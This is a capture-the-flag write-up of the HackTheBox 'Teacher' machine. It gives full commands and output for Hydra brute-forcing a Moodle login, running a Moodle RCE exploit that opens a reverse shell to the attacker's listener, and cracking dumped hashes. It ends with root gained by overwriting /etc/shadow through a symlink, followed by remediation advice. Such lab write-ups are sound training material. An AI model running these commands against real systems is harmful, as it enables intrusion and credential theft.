



+++
authors = ["Matt Johnson"]
title = 'HTB: Teacher Writeup'
date = '2020-05-29'
description = "Here's how to solve HackTheBox's Teacher."
draft = false
tags = ["hackthebox","security"]
summary = "Here's how to solve HackTheBox's Teacher."
+++



# High-Level Information

Machine Name: Teacher

IP Address: 10.10.10.153

Difficulty: Medium

Summary: HackTheBox's Teacher didn't involve very much CTF-like trickery. By performing basic web application enumeration, getting a username and a partial password is relatively straightforward. From the partially-obtained credentials, I generated a password list and used Hydra to brute force my way into the Moodle web application. I was able to gain remote code execution (RCE) by using an exploit that takes advantage of poor input sanitization within the Moodle quiz module (CVE-2018-1133). Once on the machine, I found credentials to access the MongoDB database, which gave me an MD5 hash of the `giovanni` user account. I was easily able to crack the hash and log in as the user. Using a backup script discovered during the internal enumeration process, I was able to overwrite `/etc/shadow` and escalate privileges to root.

Tools Used: Nmap, Gobuster, Skipfish, Hydra, [MoodleExploit](https://github.com/darrynten/MoodleExploit), [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), Hashcat

# Initial Foothold

```shell
matt@kali:~$ sudo /opt/stagednmap.sh 10.10.10.153
[sudo] password for matt:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-09 10:46 CDT
Nmap scan report for 10.10.10.153
Host is up (0.12s latency).
Not shown: 65534 closed ports
PORT STATE SERVICE
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 393.63 seconds
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-09 10:53 CDT
Nmap scan report for 10.10.10.153
Host is up (0.13s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 4.8 (95%), Linux 4.9 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TRACEROUTE (using port 443/tcp)
HOP RTT ADDRESS
1 128.70 ms 10.10.14.1
2 128.75 ms 10.10.10.153
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.53 seconds
matt@kali:~$
```

With only port 80 open, I began to enumerate the web server:

 

```shell
matt@kali:~$ gobuster dir --url http://10.10.10.153 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --threads 50
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://10.10.10.153
[+] Threads: 50
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Timeout: 10s
===============================================================
2020/05/09 10:49:29 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/manual (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/fonts (Status: 301)
/phpmyadmin (Status: 403)
/moodle (Status: 301)
/server-status (Status: 403)
===============================================================
2020/05/09 10:59:02 Finished
===============================================================
matt@kali:~$
```

In addition to my typical enumeration, I crawled the website, and the tool that I used (Skipfish) noted that one of the images on the site was actually plain text.



Inspecting the file gave me a partial password.

```shell
matt@kali:~/htb/teacher$ wget http://10.10.10.153/images/5.png
--2020-05-09 11:30:40-- http://10.10.10.153/images/5.png
Connecting to 10.10.10.153:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 200 [image/png]
Saving to: ‘5.png’
5.png 100%[====================================================================================================================================================>] 200 --.-KB/s in 0s
2020-05-09 11:30:40 (7.36 MB/s) - ‘5.png’ saved [200/200]
matt@kali:~/htb/teacher$ mv 5.png 5.txt
matt@kali:~/htb/teacher$ cat 5.txt
Hi Servicedesk,
I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.
Could you guys figure out what the last charachter is, or just reset it?
Thanks,
Giovanni
matt@kali:~/htb/teacher$ 
```

Knowing this information, I wrote a short script that would help me generate a password list.

```python
#!/bin/python3
import string
partial_pass = 'Th4C00lTheacha'
for c in string.printable:
     print(partial_pass + c)
```

With this password list, I utilized Hydra against the Moodle and found that `Th4C00lTheacha#` was a valid password for the user `giovanni`.

```shell
matt@kali:~/htb/teacher$ hydra -l giovanni -P passlist.txt 10.10.10.153 http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&Login=Login:Invalid login"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-09 11:53:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 101 login tries (l:1/p:101), ~7 tries per task
[DATA] attacking http-post-form://10.10.10.153:80/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&Login=Login:Invalid login
[80][http-post-form] host: 10.10.10.153 login: giovanni password: Th4C00lTheacha#
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-09 11:54:15
matt@kali:~/htb/teacher$ 
```



I discovered that this version of Moodle was susceptible to a remote code execution vulnerability (CVE-2018-1133) via a specifically crafted quiz. Since Giovanni was a teacher, I was able to exploit this vulnerability. I found a working exploit online ([darrynten/MoodleExploit](https://github.com/darrynten/MoodleExploit)), started up a netcat listener, and ran the exploit.

```shell
matt@kali:~/htb/teacher$ php MoodleExploit.php url=10.10.10.153/moodle/ user=giovanni pass=Th4C00lTheacha# ip=10.10.14.51 port=80 course=2
*------------------------------*
* Noodle [Moodle RCE] (v3.4.1) *
*------------------------------*
[!] Make sure you have a listener
[!] at 10.10.14.37:80
[*] Logging in as user giovanni with password Th4C00lTheacha#
[+] Successful Login
[>] Moodle Session 0ildt7rmmsti5em7p20sifmg17
[>] Moodle Key 7uEyE7rMXY
[*] Loading Course ID 2
[+] Successfully Loaded Course
[*] Enable Editing
[+] Successfully Enabled Course Editing
[*] Adding Quiz
[+] Successfully Added Quiz
[*] Configuring New Quiz
[+] Successfully Configured Quiz
[*] Loading Edit Quiz Page
[+] Successfully Loaded Edit Quiz Page
[*] Adding Calculated Question
[+] Successfully Added Calculation Question
[*] Adding Evil Question
[+] Successfully Created Evil Question
[*] Sending Exploit
[>] You should receive a reverse shell attempt from the target at 10.10.14.37 on port 80
[>] If connection was successful this program will wait here until you close the connection.
[>] You should be able to Ctrl+C and retain the connection through netcat.
^C
matt@kali:~/htb/teacher$
```

```shell
matt@kali:~$ sudo nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.14.51] from (UNKNOWN) [10.10.10.153] 44972
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

# Privilege Escalation

I began my internal enumeration by running linPEAS, which yielded two important pieces of information. The first was the existence of a script called `backup.sh`. This wasn't immediately useful, but it would eventually become important. The second, which was more immediately useful, was a `config.php` file that contained database credentials.

```php
<?php // Moodle configuration file
unset($CFG);
global $CFG;
$CFG = new stdClass();
$CFG->dbtype = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost = 'localhost';
$CFG->dbname = 'moodle';
$CFG->dbuser = 'root';
$CFG->dbpass = 'Welkom1!';
$CFG->prefix = 'mdl_';
$CFG->dboptions = array (
'dbpersist' => 0,
'dbport' => 3306,
'dbsocket' => '',
'dbcollation' => 'utf8mb4_unicode_ci',
);
$CFG->wwwroot = 'http://10.10.10.153/moodle';
$CFG->dataroot = '/var/www/moodledata';
$CFG->admin = 'admin';
$CFG->directorypermissions = 0777;
require_once(__DIR__ . '/lib/setup.php');
// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
www-data@teacher:/var/www/html/moodle$ 
```

Using these credentials, I was able to enumerate the MariaDB database.

```sql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Welcome to the MariaDB monitor. Commands end with ; or \g.
Your MariaDB connection id is 55
Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1
Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MariaDB [moodle]> SELECT user from mysql.user;
+------------+
| user |
+------------+
| phpmyadmin |
| root |
+------------+
2 rows in set (0.00 sec)
MariaDB [moodle]> SELECT host, user, password from mysql.user;
+-----------+------------+-------------------------------------------+
| host | user | password |
+-----------+------------+-------------------------------------------+
| localhost | root | *F435725A173757E57BD36B09048B8B610FF4D0C4 |
| localhost | phpmyadmin | *F435725A173757E57BD36B09048B8B610FF4D0C4 |
+-----------+------------+-------------------------------------------+
2 rows in set (0.00 sec)
MariaDB [moodle]> SELECT table_schema, table_name FROM information_schema.tables WHERE table_name LIKE '%user%';
+--------------------+-------------------------------------------------+
| table_schema | table_name |
+--------------------+-------------------------------------------------+
| information_schema | USER_PRIVILEGES |
| information_schema | USER_STATISTICS |
| moodle | mdl_assign_user_flags |
| moodle | mdl_assign_user_mapping |
| moodle | mdl_chat_users |
| moodle | mdl_competency_usercomp |
| moodle | mdl_competency_usercompcourse |
| moodle | mdl_competency_usercompplan |
| moodle | mdl_competency_userevidence |
| moodle | mdl_competency_userevidencecomp |
| moodle | mdl_enrol_lti_lti2_user_result |
| moodle | mdl_enrol_lti_users |
| moodle | mdl_external_services_users |
| moodle | mdl_oauth2_user_field_mapping |
| moodle | mdl_portfolio_instance_user |
| moodle | mdl_stats_user_daily |
| moodle | mdl_stats_user_monthly |
| moodle | mdl_stats_user_weekly |
| moodle | mdl_tool_usertours_steps |
| moodle | mdl_tool_usertours_tours |
| moodle | mdl_user |
| moodle | mdl_user_devices |
| moodle | mdl_user_enrolments |
| moodle | mdl_user_info_category |
| moodle | mdl_user_info_data |
| moodle | mdl_user_info_field |
| moodle | mdl_user_lastaccess |
| moodle | mdl_user_password_history |
| moodle | mdl_user_password_resets |
| moodle | mdl_user_preferences |
| moodle | mdl_user_private_key |
| mysql | user |
| performance_schema | events_stages_summary_by_user_by_event_name |
| performance_schema | events_statements_summary_by_user_by_event_name |
| performance_schema | events_waits_summary_by_user_by_event_name |
| performance_schema | users |
| phpmyadmin | pma__userconfig |
| phpmyadmin | pma__usergroups |
| phpmyadmin | pma__users |
+--------------------+-------------------------------------------------+
39 rows in set (0.00 sec)
MariaDB [moodle]> SHOW COLUMNS FROM mdl_user;
+-------------------+--------------+------+-----+-----------+----------------+
| Field | Type | Null | Key | Default | Extra |
+-------------------+--------------+------+-----+-----------+----------------+
| id | bigint(10) | NO | PRI | NULL | auto_increment |
| auth | varchar(20) | NO | MUL | manual | |
| confirmed | tinyint(1) | NO | MUL | 0 | |
| policyagreed | tinyint(1) | NO | | 0 | |
| deleted | tinyint(1) | NO | MUL | 0 | |
| suspended | tinyint(1) | NO | | 0 | |
| mnethostid | bigint(10) | NO | MUL | 0 | |
| username | varchar(100) | NO | | | |
| password | varchar(255) | NO | | | |
| idnumber | varchar(255) | NO | MUL | | |
| firstname | varchar(100) | NO | MUL | | |
| lastname | varchar(100) | NO | MUL | | |
| email | varchar(100) | NO | MUL | | |
| emailstop | tinyint(1) | NO | | 0 | |
| icq | varchar(15) | NO | | | |
| skype | varchar(50) | NO | | | |
| yahoo | varchar(50) | NO | | | |
| aim | varchar(50) | NO | | | |
| msn | varchar(50) | NO | | | |
| phone1 | varchar(20) | NO | | | |
| phone2 | varchar(20) | NO | | | |
| institution | varchar(255) | NO | | | |
| department | varchar(255) | NO | | | |
| address | varchar(255) | NO | | | |
| city | varchar(120) | NO | MUL | | |
| country | varchar(2) | NO | MUL | | |
| lang | varchar(30) | NO | | en | |
| calendartype | varchar(30) | NO | | gregorian | |
| theme | varchar(50) | NO | | | |
| timezone | varchar(100) | NO | | 99 | |
| firstaccess | bigint(10) | NO | | 0 | |
| lastaccess | bigint(10) | NO | MUL | 0 | |
| lastlogin | bigint(10) | NO | | 0 | |
| currentlogin | bigint(10) | NO | | 0 | |
| lastip | varchar(45) | NO | | | |
| secret | varchar(15) | NO | | | |
| picture | bigint(10) | NO | | 0 | |
| url | varchar(255) | NO | | | |
| description | longtext | YES | | NULL | |
| descriptionformat | tinyint(2) | NO | | 1 | |
| mailformat | tinyint(1) | NO | | 1 | |
| maildigest | tinyint(1) | NO | | 0 | |
| maildisplay | tinyint(2) | NO | | 2 | |
| autosubscribe | tinyint(1) | NO | | 1 | |
| trackforums | tinyint(1) | NO | | 0 | |
| timecreated | bigint(10) | NO | | 0 | |
| timemodified | bigint(10) | NO | | 0 | |
| trustbitmask | bigint(10) | NO | | 0 | |
| imagealt | varchar(255) | YES | | NULL | |
| lastnamephonetic | varchar(255) | YES | MUL | NULL | |
| firstnamephonetic | varchar(255) | YES | MUL | NULL | |
| middlename | varchar(255) | YES | MUL | NULL | |
| alternatename | varchar(255) | YES | MUL | NULL | |
+-------------------+--------------+------+-----+-----------+----------------+
53 rows in set (0.00 sec)
MariaDB [moodle]> select username,password,lastlogin FROM mdl_user;
+-------------+--------------------------------------------------------------+------------+
| username | password | lastlogin |
+-------------+--------------------------------------------------------------+------------+
| guest | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO | 0 |
| giovanni | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO | 1589731549 |
| admin | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 | 1530059097 |
| Giovannibak | 7a860966115182402ed06375cf0a22af | 0 |
+-------------+--------------------------------------------------------------+------------+
4 rows in set (0.00 sec)
MariaDB [moodle]>
```

I knew that any hash with `$2y$` was not worth trying to crack, since it's bcrypt. The hash for the `Giovannibak` seemed far more interesting, as it was 32 bits. Assuming it was MD5, I fired up hashcat and tried to crack it.

```shell
matt@kali:~/htb/teacher$ hashcat -m 0 hashcat.input /usr/share/wordlists/metasploit/password.lst --force
hashcat (v5.1.0) starting...
OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7-8665U CPU @ 1.90GHz, 2048/5891 MB allocatable, 4MCU
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.
Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.
* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
* Device #1: Kernel m00000_a0-pure.9c6e2fcd.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: /usr/share/wordlists/metasploit/password.lst
* Passwords.: 88397
* Bytes.....: 820321
* Keyspace..: 88397
* Runtime...: 0 secs
7a860966115182402ed06375cf0a22af:expelled
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: 7a860966115182402ed06375cf0a22af
Time.Started.....: Sun May 17 12:18:45 2020 (1 sec)
Time.Estimated...: Sun May 17 12:18:46 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/metasploit/password.lst)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 75175 H/s (1.31ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 28672/88397 (32.44%)
Rejected.........: 0/28672 (0.00%)
Restore.Point....: 24576/88397 (27.80%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: endosperm -> fontaine
Started: Sun May 17 12:18:21 2020
Stopped: Sun May 17 12:18:46 2020
matt@kali:~/htb/teacher$ 
```

I was easily able to crack the hash, and the gained credentials allowed me to log in as the `giovanni` user account.

As the `giovanni` user, I inspected the contents of their home directory. On its own, the home directory didn't give away too much information. However, upon reinspection of the `backup.sh` file, I noticed a logical error in its code:

```shell
giovanni@teacher:~$ cat /usr/bin/backup.sh
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

Ignoring all of the unnecessary details, the problem is that the script moves to the `tmp/` folder and recursively grants global read/write access to all files within directory. This can be abused by creating a symbolic link (symlink) to any file or directory one wishes to access. There are many paths to privilege escalation from here. One could simply create a symlink to the `/root` directory, grab the flag, and call it a day. However, my goal was to get a root shell, so I decided to create a symlink to `/etc/shadow`, back up the original copy, overwrite root's hash with giovanni's hash, log in as root, and restore the original `/etc/shadow` file from backup. In a real (mature) environment, this would certainly set off some alarms. But hey, it's a CTF challenge.

```shell
giovanni@teacher:~/work$ ls
courses tmp
giovanni@teacher:~/work$ ln -s /etc/shadow tmp/link
giovanni@teacher:~/work$ cp tmp/link shadow.backup
giovanni@teacher:~/work$ vi /etc/shadow
giovanni@teacher:~/work$ cat /etc/shadow
root:$6$RiDoH4VN$WamVNCkuoZyN1uM6hmyKKt6GwGWAamiQM3SYCrr5lmUYnmV7vpBNkYZCHqjh7UDtsdF8NbGjM7dJPIsxeFkrx0:17709:0:99999:7:::
daemon:*:17708:0:99999:7:::
bin:*:17708:0:99999:7:::
sys:*:17708:0:99999:7:::
sync:*:17708:0:99999:7:::
games:*:17708:0:99999:7:::
man:*:17708:0:99999:7:::
lp:*:17708:0:99999:7:::
mail:*:17708:0:99999:7:::
news:*:17708:0:99999:7:::
uucp:*:17708:0:99999:7:::
proxy:*:17708:0:99999:7:::
www-data:*:17708:0:99999:7:::
backup:*:17708:0:99999:7:::
list:*:17708:0:99999:7:::
irc:*:17708:0:99999:7:::
gnats:*:17708:0:99999:7:::
nobody:*:17708:0:99999:7:::
systemd-timesync:*:17708:0:99999:7:::
systemd-network:*:17708:0:99999:7:::
systemd-resolve:*:17708:0:99999:7:::
systemd-bus-proxy:*:17708:0:99999:7:::
_apt:*:17708:0:99999:7:::
messagebus:*:17708:0:99999:7:::
sshd:*:17708:0:99999:7:::
mysql:!:17708:0:99999:7:::
giovanni:$6$RiDoH4VN$WamVNCkuoZyN1uM6hmyKKt6GwGWAamiQM3SYCrr5lmUYnmV7vpBNkYZCHqjh7UDtsdF8NbGjM7dJPIsxeFkrx0:17709:0:99999:7:::
giovanni@teacher:~/work$ su -
Password:
root@teacher:~# id
uid=0(root) gid=0(root) groups=0(root)
root@teacher:~# pwd
/root
root@teacher:~# cd /home/giovanni/work
root@teacher:/home/giovanni/work# ls
courses shadow.backup tmp
root@teacher:/home/giovanni/work# cp shadow.backup /etc/shadow
root@teacher:/home/giovanni/work# cat /etc/shadow
root:$6$j801WLZh$Gm3artvmHU6m4zOtHM5/cEejF4mJ.Ctvf2rNlP.z/30gzsykgbCMQmZLr3vfAXzRhp5v3CHorU.giSaqVXdi/0:17709:0:99999:7:::
daemon:*:17708:0:99999:7:::
bin:*:17708:0:99999:7:::
sys:*:17708:0:99999:7:::
sync:*:17708:0:99999:7:::
games:*:17708:0:99999:7:::
man:*:17708:0:99999:7:::
lp:*:17708:0:99999:7:::
mail:*:17708:0:99999:7:::
news:*:17708:0:99999:7:::
uucp:*:17708:0:99999:7:::
proxy:*:17708:0:99999:7:::
www-data:*:17708:0:99999:7:::
backup:*:17708:0:99999:7:::
list:*:17708:0:99999:7:::
irc:*:17708:0:99999:7:::
gnats:*:17708:0:99999:7:::
nobody:*:17708:0:99999:7:::
systemd-timesync:*:17708:0:99999:7:::
systemd-network:*:17708:0:99999:7:::
systemd-resolve:*:17708:0:99999:7:::
systemd-bus-proxy:*:17708:0:99999:7:::
_apt:*:17708:0:99999:7:::
messagebus:*:17708:0:99999:7:::
sshd:*:17708:0:99999:7:::
mysql:!:17708:0:99999:7:::
giovanni:$6$RiDoH4VN$WamVNCkuoZyN1uM6hmyKKt6GwGWAamiQM3SYCrr5lmUYnmV7vpBNkYZCHqjh7UDtsdF8NbGjM7dJPIsxeFkrx0:17709:0:99999:7:::
root@teacher:/home/giovanni/work# 
```

Alternatively, if you don't care about getting a root shell but still want all the permissions of root, you could simply do the following:

```shell
giovanni@teacher:~/work$ ln -s / tmp/allfolders
```

Due to the way symlinks work, this would grant you `777` permissions to all files and folders within the system.

# Discussion

Per recommendation from my boss (boss' boss?), who himself is a penetration tester and security auditor, I've decided to include a brief discussion at the bottom of the writeup highlighting the technical and business risks as well as remediations for the highlighted vulnerabilities. Not all vulnerabilities discovered during CTF challenges are very applicable in the real world, so I plan to focus on the immediately actionable problems.

The first preventable issue I'd like to highlight is the ability to credential stuff the Moodle application. Based on the password list I generated, Hydra attempted 64 unsuccessful logins before finding the correct password. Even for applications that are considered "low risk", this should not be allowed. NIST recommends allowing at least ten attempts [(NIST SP 800-63b, Section 10.1)](https://pages.nist.gov/800-63-3/sp800-63b.html#sec5) before locking an account out. However, this recommendation is made in conjunction with its other recommendations which include non-SMS 2FA. Even generously offering users 25 attempts (which I wouldn't recommend) before locking them out would have easily prevented this.

As of this machine's release date (2018-12-01), the Moodle RCE vulnerability tracked as CVE-2018-1133 [had been fixed for nearly seven months](https://moodle.org/mod/forum/discuss.php?d=371199). A well-defined process for tracking vulnerabilities and patching systems would have prevented this from being exploited. [Moodle's documentation](https://docs.moodle.org/38/en/Upgrading) highlights the process for upgrading the application, and it even highlights that it can be done as a cronjob. All major application updates should be tested prior to implementation, of course, but the point remains the same. Some web application vulnerabilities are much more difficult to discover and correct, but vendor-supplied patches are not.

The last issue I'd like to highlight is that which ended up allowing me root access to the box. The first part of the issue is that the `backup.sh` script is inexplicably run as root despite there being no necessity. More and more Linux distributions are moving away from allowing access to the root account for this very reason (among others). Most actions simply do not require root-level permissions, and those that do can be explicitly authorized for specific users and groups in the `/etc/sudoers` file. It also makes user accountability much more manageable, but I digress. Running the `chmod 777 -R *` command as root so cavalierly within a non-privileged user's account is simply a bad idea, and in this case allowed anyone with access to that account (such as Giovanni, who was evidently a teacher) to have read/write permission to the entire system. This could lead to exfiltration of data, audit log tampering, arbitrary deletion or modification of company resources, and more. Running this script as `giovanni` would have had the same end result without any of the security concerns.